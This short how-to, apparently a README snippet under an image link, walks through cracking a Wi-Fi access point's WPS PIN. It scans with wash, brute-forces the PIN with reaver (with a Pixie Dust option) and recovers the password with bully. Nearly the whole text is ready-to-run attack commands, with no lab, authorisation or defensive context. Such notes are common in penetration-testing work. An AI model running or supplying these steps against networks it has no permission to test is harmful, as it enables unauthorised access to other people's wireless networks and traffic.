 After wlan0 in monitor mode:
`# wash -i wlan0mon`

Attack the AP like:
`# reaver -b <bssid> -i wlan0mon -v` (add `-K` to try the PixieWPS attack which might be faster.)
If it gets stuck, try to add the channel (gathered with `wash`) with the `-c` flag

If you opnly get the PIN, feed it to `bully` to retrieve the password like so:
`# bully -B -p <pin>`